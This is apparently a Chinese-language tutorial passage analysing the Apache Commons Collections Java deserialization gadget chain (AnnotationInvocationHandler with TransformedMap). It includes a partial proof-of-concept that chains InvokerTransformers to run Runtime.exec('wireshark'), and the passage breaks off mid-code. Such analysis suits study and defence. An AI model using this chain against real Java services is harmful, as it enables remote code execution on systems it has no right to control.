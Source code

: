 ![](ser_example1/membervalues.png)

所以，只要我们在构造poc时将memberValues设置为transformerdMap,那么就有可能触发setValue操作，前提是需要满足if条件`!var7.isInstance(var8) && !(var8 instanceof ExceptionProxy)`


接下来我们的任务就是研究怎么构造poc才能满足这个if条件。通过代码可以知道var7 = (Class)var3.get(var6),其中var3=var2.memberTypes(),然后var2=AnnotationType.getInstance(this.type),而this.type是可控的，构造函数如下：

```java
    AnnotationInvocationHandler(Class<? extends Annotation> var1, Map<String, Object> var2) {
        Class[] var3 = var1.getInterfaces();
        if (var1.isAnnotation() && var3.length == 1 && var3[0] == Annotation.class) {
            this.type = var1;
            this.memberValues = var2;
        } else {
            throw new AnnotationFormatError("Attempt to create proxy for a non-annotation type.");
        }
    }
```

可见this.type就是构造函数的第一个参数（当然还是需要满足if条件才能赋值成功），所以，现在构造函数的第一个参数到底传什么才能满足我们的需求呢,首先它得继承Annotation,所以我们直接去找Annotation的子类，后面在看源码的过程中我才知道Annotation这个接口是所有**注解**类型的公用接口，所有注解类型应该都是实现了这个接口的，而漏洞作者用到的是`java.lang.annotation.Retention.class`这个注解类（其他符合条件的类也是可以的，不过我没有继续找了emmmm）。

> 了解java注解，参考：https://juejin.im/post/5b45bd715188251b3a1db54f


这个注解是否符合条件呢？一行行读代码不够直观，我们不妨就假设这个类满足条件，用它来继续构造poc，然后在下断点调试一下，这样可以更加清晰的看到结果～接着上面的poc,现在我们需要新建一个AnnotationInvocationHandler类的实例，但是这个类的访问权限不是public,而是包访问权限，所以，我们在构造poc的时候只有通过反射机制来实例化它，具体看代码：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class POC4 {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers_exec = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"wireshark"})
        };

        Transformer chain = new ChainedTransformer(transformers_exec);
```